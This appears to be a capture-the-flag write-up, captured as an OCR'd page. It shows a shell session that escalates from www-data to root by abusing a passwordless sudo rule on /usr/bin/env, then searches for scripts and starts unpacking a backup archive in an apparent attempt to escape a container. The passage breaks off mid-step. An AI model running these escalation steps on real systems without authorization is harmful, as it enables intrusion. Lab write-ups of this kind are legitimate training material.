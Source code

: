 ## First let's get root on this machine

```
www-data@b681b94db593:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on b681b94db593:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on b681b94db593:
    (root) NOPASSWD: /usr/bin/env

```

```
www-data@b681b94db593:/$ sudo /usr/bin/env /bin/sh
sudo /usr/bin/env /bin/sh
# whoami
whoami
root
```

## Get to the host

```
root@e6293899f8a5:/# find -type f -name "*.sh" 
find -type f -name "*.sh" 
./opt/backups/backup.sh
./etc/init.d/hwclock.sh
find: './proc/86/map_files': Permission denied
find: './proc/87/map_files': Permission denied
find: './proc/91/map_files': Permission denied
find: './proc/92/map_files': Permission denied
find: './proc/93/map_files': Permission denied
find: './proc/94/map_files': Permission denied
find: './proc/95/map_files': Permission denied
find: './proc/96/map_files': Permission denied
find: './proc/97/map_files': Permission denied
find: './proc/104/map_files': Permission denied
./lib/init/vars.sh
./usr/local/lib/php/build/ltmain.sh
./usr/share/debconf/confmodule.sh
root@e6293899f8a5:/# 
```

```./opt/backups/backup.sh```

There is a backup file and a backup sh file

```
root@e6293899f8a5:/opt/backups# tar -xvf backup.tar -C /tmp
tar -xvf backup.tar -C /tmp
